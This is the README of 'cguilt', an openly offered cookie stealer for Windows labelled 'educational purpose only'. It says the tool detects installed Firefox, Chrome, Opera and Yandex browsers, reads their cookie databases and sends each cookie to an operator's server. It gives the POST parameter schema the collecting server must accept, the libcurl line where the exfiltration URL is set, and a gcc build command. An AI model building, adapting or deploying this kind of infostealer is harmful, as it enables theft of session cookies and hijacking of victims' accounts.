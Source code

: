 # cguilt
Complete raw cookie stealer for MS Windows. Educational purpose only. Have runtime dependencies, such as `libcurl`. Binaries are not distributed for obvious reason. Also cookies are not decrypted for some reason, but I'm one hundred percent working on it. Maybe.

Working principe just pretty simple: first checks what browsers are currently installed on the local machine. There is only four variants for now *(Firefox, Chrome, Opera, Yandex)*, then reads their cookie file databases and sends content to your server through API requests. Really simple, huh.

If you want to build your own binary, scroll down. You'll also you need a serverside to accept incoming POST requests with some query params in it. To check the template of incoming params, scroll a little bit down.

## query template
In incoming API requests query schema has three parametrs:
1. `host`. Cookie host value. Cguilt sending cookies one-by-one, so the one request is the one cookie pair. String, max 128 chars long.
2. `value`. Cookie content value. String, max 1024 chars long.
3. `b_type`. Browser type. Not exactly every browser here, but only Chromium in general (= 1) and Gecko (= 2).

## build
Install `libcurl` and `sqlite3` libs. Before compilation change destination server adress in 55th string in `send.c`:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Compile everything.
```bash
$ gcc -o <name> main.c send.c direct.c `pkg-config --cflags --libs sqlite3 libcurl`
```


